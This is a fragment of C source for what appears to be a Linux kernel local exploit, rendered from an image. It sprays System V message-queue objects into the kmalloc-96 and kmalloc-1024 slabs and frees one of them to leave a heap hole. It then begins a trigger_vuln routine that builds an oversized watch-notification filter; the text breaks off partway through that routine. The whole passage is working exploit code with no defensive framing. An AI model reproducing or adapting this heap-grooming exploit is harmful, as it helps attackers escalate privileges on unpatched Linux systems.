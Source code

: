 ```c
    memset(message, 0, 0x1000);

    for (i = 0; i < spray_count; i++)
    {
        /* create queue */
        if ((spray_queue[i] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT)) == -1)
        {
            perror("msg_msg_spray: create queue failed\n");
            exit(0);           
        }
        /* send message - alloc kmalloc-96*/
        message->mtype = MSG_TYPE_96;
        ((uint64_t*)message->mtext)[0] = i;
        ((uint64_t*)message->mtext)[5] = 0;
        if (msgsnd(spray_queue[i], message, SPRAY_SIZE_KMALLOC_96, 0) < 0)
        {
            perror("msg_msg_spray: msgsnd 96 failed\n");
            exit(0);
        }

        if (i == HOLE_MSG_INDEX)
        {
            /* if HOLE allocation, do not allocate 1024 message */
            continue;
        }

        /* send message - alloc kmalloc-1024 : kmalloc-96 -> mlist.next -> kmalloc-1024*/
        message->mtype = MSG_TYPE_1024;
        ((uint64_t*)message->mtext)[0] = i;
        ((uint64_t*)message->mtext)[5] = 0;
        if (msgsnd(spray_queue[i], message, SPRAY_SIZE_KMALLOC_1024, 0) < 0)
        {
            perror("msg_msg_spray: msgsnd 1024 failed\n");
            exit(0);
        }
    }
}

int msg_msg_make_hole()
{
    int hole_target_queue = spray_queue[HOLE_MSG_INDEX];
    struct msg_buf* message = malloc(0x1000);

    if (msgrcv(hole_target_queue, message, SPRAY_SIZE_KMALLOC_96, MSG_TYPE_96, IPC_NOWAIT) < 0)
    {
        perror("msg_msg_make_hole: msgrcv failed\n");
        exit(0);
    }
}

int trigger_vuln(void)
{
    int nfilters = 4;
    struct watch_notification_filter *filter = (struct watch_notification_filter*)malloc(sizeof(struct watch_notification_filter) + nfilters * sizeof(struct watch_notification_type_filter));
    int i;
    int fds[2];

    filter->nr_filters = nfilters;
    for (i = 0; i < (nfilters - 1); i++)
    {
        filter->filters[i].type = 1;
    }
```